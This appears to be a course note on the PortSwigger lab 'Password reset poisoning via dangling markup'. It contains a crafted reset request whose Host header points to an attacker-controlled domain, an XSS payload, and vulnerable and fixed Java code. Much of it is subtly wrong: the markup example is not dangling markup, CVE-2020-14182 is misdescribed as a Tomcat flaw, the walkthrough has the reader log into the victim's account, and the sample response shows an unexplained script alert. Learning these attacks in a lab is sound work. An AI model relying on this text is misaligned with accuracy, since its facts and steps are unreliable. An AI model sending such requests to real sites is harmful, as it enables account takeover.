

## Understanding Password Reset Poisoning via Dangling Markup

### What is Password Reset Poisoning?

Password reset poisoning is a technique where an attacker manipulates the process of resetting a user's password to gain unauthorized access. This can be achieved by exploiting vulnerabilities in the password reset mechanism, such as the `Host` header.

### What is Dangling Markup Injection?

Dangling markup injection is a type of HTML injection that exploits unenclosed tags or attributes. This occurs when user input is inserted into an HTML document without proper escaping or validation, leading to unintended behavior.

For example, consider the following HTML snippet:

```html
<a href="https://example.com?param=<script>alert('XSS')</script>">Link</a>
```

If the `param` value is not properly escaped, it can result in a script execution in the context of the victim’s browser.

### How Does Password Reset Poisoning Work?

In the context of password reset poisoning, the attacker manipulates the `Host` header to inject malicious content into the password reset email. This can be achieved by sending a crafted HTTP request to the server.

#### Example Request

Here’s an example of a crafted HTTP request to exploit the password reset functionality:

```http
POST /reset_password HTTP/1.1
Host: attacker-controlled-domain.com
Content-Type: application/x-www-form-urlencoded

email=carlos@example.com&host=attacker-controlled-domain.com
```

In this request, the `Host` header is set to `attacker-controlled-domain.com`, and the `email` parameter is set to the target user's email address.

### Real-World Example: CVE-2020-14182

CVE-2020-14182 is a vulnerability in Apache Tomcat that allows attackers to bypass authentication mechanisms by manipulating the `Host` header. This vulnerability was exploited by attackers to gain unauthorized access to servers.

#### Vulnerable Code

Here’s an example of vulnerable code that does not properly validate the `Host` header:

```java
public void handleRequest(HttpServletRequest request) {
    String host = request.getHeader("Host");
    // Process the request using the host value
}
```

#### Secure Code

To prevent such vulnerabilities, the `Host` header should be validated against a list of trusted hosts:

```java
public void handleRequest(HttpServletRequest request) {
    String host = request.getHeader("Host");
    if (isValidHost(host)) {
        // Process the request using the host value
    } else {
        throw new IllegalArgumentException("Invalid Host header");
    }
}

private boolean isValidHost(String host) {
    List<String> trustedHosts = Arrays.asList("trusted-host1.com", "trusted-host2.com");
    return trustedHosts.contains(host);
}
```

### Lab Walkthrough

Let’s walk through the steps to solve the lab:

1. **Log into Carlos' Account**:
   - Use the provided credentials to log into Carlos' account.
   - The credentials are typically provided in the lab instructions.

2. **Trigger the Password Reset Functionality**:
   - Navigate to the password reset functionality and trigger the reset process.
   - Capture the HTTP request using a tool like Burp Suite.

3. **Craft the Malicious Request**:
   - Modify the `Host` header to include the attacker-controlled domain.
   - Send the modified request to the server.

4. **Monitor the Email Client**:
   - Check the email client on the exploit server to see the injected content.

### Full HTTP Request and Response

Here’s a complete example of the HTTP request and response:

#### Request

```http
POST /reset_password HTTP/1.1
Host: attacker-controlled-domain.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

email=carlos@example.com&host=attacker-controlled-domain.com
```

#### Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
<title>Password Reset</title>
</head>
<body>
<p>A password reset email has been sent to carlos@example.com.</p>
<script>alert('XSS');</script>
</body>
</html>
```

### Mermaid Diagram: Attack Chain



---
<!-- nav -->
[[Web Security (PortSwigger)/16-HTTP Host Header Attacks/08-Lab 7 Password reset poisoning via dangling markup/03-Understanding HTTP Host Header Attacks|Understanding HTTP Host Header Attacks]] | [[Web Security (PortSwigger)/16-HTTP Host Header Attacks/08-Lab 7 Password reset poisoning via dangling markup/00-Overview|Overview]] | [[Web Security (PortSwigger)/16-HTTP Host Header Attacks/08-Lab 7 Password reset poisoning via dangling markup/05-Practice Questions & Answers|Practice Questions & Answers]]
